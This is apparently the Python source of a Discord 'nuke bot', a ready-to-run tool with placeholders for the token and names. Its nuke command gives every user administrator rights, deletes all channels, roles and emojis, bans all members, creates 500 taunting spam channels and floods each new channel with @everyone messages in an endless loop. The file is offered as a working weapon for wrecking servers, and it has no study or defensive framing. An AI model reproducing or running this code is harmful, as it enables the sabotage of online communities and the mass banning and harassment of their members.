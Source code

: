 # Nuke-Bot-discord
import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio

token = "𝐁𝐨𝐭_𝐓𝐨𝐤𝐞𝐧"


SPAM_CHANNEL =  ["𝐘𝐨𝐮𝐫_𝐍𝐚𝐦𝐞 runs you" , "Get ran" , "𝐘𝐨𝐮𝐫_𝐍𝐚𝐦𝐞" , "oops Beamed","𝐘𝐨𝐮𝐫_𝐍𝐚𝐦𝐞 Beamed You","Shoulda Listened","Get beamed clowns","Beamed by 𝐘𝐨𝐮𝐫_𝐍𝐚𝐦𝐞","oops got nuked","I run you","beamed by 𝐘𝐨𝐮𝐫_𝐍𝐚𝐦𝐞","I run you","kinda got beamed by 𝐘𝐨𝐮𝐫_𝐍𝐚𝐦𝐞"]
SPAM_MESSAGE = ["@everyone 𝐒𝐩𝐚𝐦_𝐌𝐞𝐬𝐬𝐚𝐠𝐞"]

client = commands.Bot(command_prefix="𝐏𝐫𝐞𝐟𝐢𝐱_𝐀𝐫𝐞𝐚")


@client.event
async def on_ready():
   print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 
 ''')
   await client.change_presence(activity=discord.Game(name="𝐁𝐨𝐭_𝐒𝐭𝐚𝐭𝐮𝐬"))

@client.command()
@commands.is_owner()
async def 𝐁𝐨𝐭_𝐒𝐭𝐨𝐩(ctx):
    await ctx.bot.logout()
    print (Fore.GREEN + f"{client.user.name} has logged out successfully." + Fore.RESET)

@client.command()
async def 𝐁𝐨𝐭_𝐍𝐮𝐤𝐞(ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
      role = discord.utils.get(guild.roles, name = "@everyone")
      await role.edit(permissions = Permissions.all())
      print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
      print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
      try:
        await channel.delete()
        print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
     try:
       await member.ban()
       print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)
    for role in guild.roles:
     try:
       await role.delete()
       print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)
    for emoji in list(ctx.guild.emojis):
     try:
       await emoji.delete()
       print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
      user = ban_entry.user
      try:
        await user.unban("𝐘𝐨𝐮𝐫_𝐔𝐬𝐞𝐫")
        print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)
    await guild.create_text_channel("NUKED BITCH")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age = 0, max_uses = 0)
        print(f"New Invite: {link}")
    amount = 500
    for i in range(amount):
       await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return

@client.event
async def on_guild_channel_create(channel):
  while True:
    await channel.send(random.choice(SPAM_MESSAGE))

client.run(token, bot=True)
